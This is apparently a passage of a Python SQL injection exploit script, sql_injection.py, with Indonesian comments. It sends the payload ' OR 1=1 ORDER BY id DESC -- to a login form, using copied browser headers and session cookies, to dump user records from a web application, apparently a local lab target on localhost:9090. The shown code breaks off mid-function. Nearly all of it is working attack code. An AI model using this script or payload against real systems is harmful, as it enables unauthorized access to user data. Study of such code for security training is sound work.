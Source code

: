 ```python
# sql_injection.py
import requests
import argparse
from bs4 import BeautifulSoup
import logging

# tambahkan logging, sangat membantu untuk cek request-response
logging.basicConfig(level=logging.DEBUG)
logging.getLogger("urllib3").setLevel(logging.DEBUG)

# Fungsi parse_html ini unik untuk masing-masing website, bahkan endpoint. Beda endpoint, bisa beda fungsi
def parse_html(response_text):
    soup = BeautifulSoup(response_text, "html.parser")
    
    table = soup.find("table", class_="table")
    if not table:
        print("No result table found.")
        return
    
    rows = table.find_all("tr")
    results = {}

    for row in rows:
        columns = row.find_all("td")
        header = row.find("th")
        if header and columns:
            results[header.text.strip().lower()] = columns[0].text.strip().lower()

    return results

def exploit_get_user_data(base_url, cookie_str):
    users = []
    try:
        # info headers diambil dari curl
        # info curl diambil dari browser --> inspect element --> network
        headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br, zstd',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Origin': 'http://localhost:9090',
            'Referer': base_url,
            'Connection': 'keep-alive',
            'Upgrade-Insecure-Requests': '1',
            'Sec-Fetch-Dest': 'document',
            'Sec-Fetch-Mode': 'navigate',
            'Sec-Fetch-Site': 'same-origin',
            'Sec-Fetch-User': '?1',
            'Priority': 'u=0, i'
        }
        parsed_cookies = dict(x.split('=') for x in cookie_str.split('; '))
        
        payload_get_last_user = {"login": "\' OR 1=1 ORDER BY id DESC --"}
        response_last_user = requests.post(base_url, headers=headers,cookies=parsed_cookies, data=payload_get_last_user)

        if (response_last_user.status_code != 200):
            print("invalid request")
            return
        last_user = parse_html(response_last_user.text)
        if (last_user is None):
```